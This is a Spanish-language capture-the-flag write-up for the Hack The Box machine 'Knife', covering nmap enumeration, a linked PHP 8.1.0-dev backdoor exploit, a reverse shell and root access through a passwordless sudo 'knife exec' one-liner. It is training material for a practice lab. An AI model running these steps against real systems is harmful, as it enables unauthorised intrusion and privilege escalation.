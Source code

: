 ```yaml
---
title: "HTB - Knife"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/knife.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
---
```



OS | LINUX
Desarrollado por | MrKN16H7
Dificultad | Fácil
Liberación | 22 Mayo 2021
Puntos | 20

## Enumeración

Al usar nmap utilizando nmap -p- –open -T5 -v -n 10.10.10.242 y luego con el comando nmap -sCV -p22,80 10.10.10.242 (si quieren guardar el nmap usar -oN <NOMBRE ARCHIVO>) , solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
# Nmap 7.92 scan initiated Mon Nov  1 23:48:04 2021 as: nmap -p22,80 -sCV -O -oN NMAP knife.htb
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  1 23:48:22 2021 -- 1 IP address (1 host up) scanned in 17.24 seconds
```

Debido a esto se empieza a busca información con whatweb, en el código fuente de la página web, mientras se ejecuta la wfuzz para buscar paginas ocultas y poder acceder a ellas.

Con el código fuente de la pagina y wfuzz no encontramos nada en particular, pero WhatWeb nos dice que la pagina está escrita en 8.1.0-dev e investigando nos damos cuenta que hay un exploit (backdoor y rce) en el github de [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce){:target="_blank"}

Utilizamos este exploit y obtenermos acceso al usuario

## 1° Shell

Al entrar con el Exploit nos damos cuenta que tenemos una terminal muy básica y no podemos tratar la TTY por lo que primero abrimos una shell reverse y luego realizamos un tratamiento de TTY ([](https://gist.github.com/s4vitar/b88fefd5d9fbbdcc5f30729f7e06826e#tratamiento-de-la-tty){:target="_blank"}) así podemos obtener la primera flag.

## 2° SHELL (root)

Ya dentro del usuario james vemos si tiene algún permiso como root con el comando sudo -l y nos damos cuenta que tiene con el comando knife y este no necesita escribir la password.

	sudo -l
	Matching Defaults entries for james on knife:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User james may run the following commands on knife:
		(root) NOPASSWD: /usr/bin/knife

Con esto vemos en GTFObins si hay algún script de escalamiento de privilegios y vemos que si lo hay, lo que nos permite obtener root y poder ver la 2° flag

	$ knife exec -E 'exec "/bin/sh"'
	# whoami
	root

![Racso](https://www.hackthebox.com/badge/image/159593)